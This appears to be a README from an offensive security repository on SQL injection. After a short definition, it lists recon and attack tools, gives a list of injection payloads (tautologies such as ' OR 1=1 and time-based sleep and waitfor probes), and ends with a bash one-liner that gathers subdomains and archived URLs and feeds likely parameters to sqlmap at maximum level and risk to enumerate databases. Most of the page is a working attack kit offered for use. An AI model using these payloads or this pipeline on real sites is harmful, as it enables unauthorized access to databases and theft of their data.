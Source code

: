 <div align="center"><samp><h1>SQL injection (SQLI) - PAYLOAD</h1></samp></div>
<b> Overview : </b>
<p>
A SQL injection is a technique that attackers use to gain unauthorized access to a web application database by adding a string of malicious code to a database query. A SQL injection (SQLi) manipulates SQL code to provide access to protected resources, such as sensitive data, or execute malicious SQL statements.
</p>
<div align="center"><samp><h1>Required Tools</h1></samp></div>
<pre>
httpx
subfinder
waybackurls
Gf Pattern
Sqlmap
Anew
</pre>
<div align="center"><samp><h1>Payload List</h1></samp></div>

```
'
' OR 1=1
' OR '1'='1
' OR 'True'='True
'pg_sleep(5) --+-
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
' OR 1=1--
' OR 1=0--
%27%20or%201=1
*(|(object=*))
)%20or%20('x'='x
%20or%201=1
1) or pg_sleep(__TIME__)--
/**/or/**/1/**/=1
' or username like '%
);waitfor delay '0:0:__TIME__'--
or isNULL(1/0) /*
x' or 1=1 or 'x'='y
```
<samp>
<b>Automatic Bash Script :</b>
</samp>

```
cat wilcard.txt | subfinder -silent | httpx -silent | waybackurls | tee -a potential.txt; gf sqli | anew sqlmap.txt; sqlmap -m sqlmap.txt --technique=BEUST --level=5 --risk=3 -v3 --random-agent --dbs --batch
```
